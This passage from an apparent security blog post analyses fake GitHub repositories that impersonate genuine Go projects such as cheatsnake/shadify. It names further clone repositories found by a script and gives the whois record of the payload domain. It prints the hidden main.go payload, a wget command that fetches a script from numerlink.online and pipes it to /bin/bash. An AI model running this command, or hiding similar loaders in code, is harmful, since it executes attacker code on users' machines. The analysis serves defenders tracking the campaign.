 ```
```

## Attack of the Clones

Malware attacks like the one deployed above is a numbers game, which means that the creator most likely is impersonating more than one repository. So I wrote a quick script, which can be found at [https://gist.github.com/hougesen/e5eb7cd2c5611e202b4d211908b540a1](https://gist.github.com/hougesen/e5eb7cd2c5611e202b4d211908b540a1), for getting the repositories of all the users that starred `unfitpercen/jqfmt`.

The script spat out three different repositories `annualphysic/shadify`, `upsetpanther/feishu`, and `wickedcorsa/go-hoyolab`.

`annualphysic/shadify` is trying to impersonate [cheatsnake/shadify](https://github.com/cheatsnake/shadify). Like the fake `jqfmt` repository, the code was hidden in the `main.go` file. The only difference I could find was that the malware is hosted on a different domain (`numerlink [dot] online`).

```shell
wget -O - https://numerlink.online/storage/de373d0df/a31546bf | /bin/bash &

```

![github shadify side-by-side](/blog/github-shadify-side-by-side-main-go.png)

According to the whois result this domain _might_ also be owned by a registrant in the Seychelles.

```
Domain Name: NUMERLINK.ONLINE
Registry Domain ID: D527869092-CNIC
Registrar WHOIS Server: whois.PublicDomainRegistry.com
Registrar URL: https://publicdomainregistry.com
Creation Date: 2025-02-17T18:23:08.0Z
Registry Expiry Date: 2026-02-17T23:59:59.0Z
Registrar: PDR Ltd. d/b/a PublicDomainRegistry.com
Registrar IANA ID: 303
Domain Status: serverTransferProhibited https://icann.org/epp#serverTransferProhibited
Domain Status: clientTransferProhibited https://icann.org/epp#clientTransferProhibited
Registrant Organization: N/A
Registrant State/Province: Not Applicable
Registrant Country: SC
Registrant Email: Please query the RDDS service of the Registrar of Record identified in this output for information on how to contact the Registrant, Admin, or Tech contact of the queried domain name.
Admin Email: Please query the RDDS service of the Registrar of Record identified in this output for information on how to contact the Registrant, Admin, or Tech contact of the queried domain name.
Tech Email: Please query the RDDS service of the Registrar of Record identified in this output for information on how to contact the Registrant, Admin, or Tech contact of the queried domain name.
Name Server: HASSAN.NS.CLOUDFLARE.COM
Name Server: MARIAH.NS.CLOUDFLARE.COM
DNSSEC: unsigned
Billing Email: Please query the RDDS service of the Registrar of Record identified in this output for information on how to contact the Registrant, Admin, or Tech contact of the queried domain name.
Registrar Abuse Contact Email: abuse@publicdomainregistry.com
Registrar Abuse Contact Phone: +1.2013775952
URL of the ICANN Whois Inaccuracy Complaint Form: https://www.icann.org/wicf/
>>> Last update of WHOIS database: 2025-02-27T03:26:23.0Z <<<

```
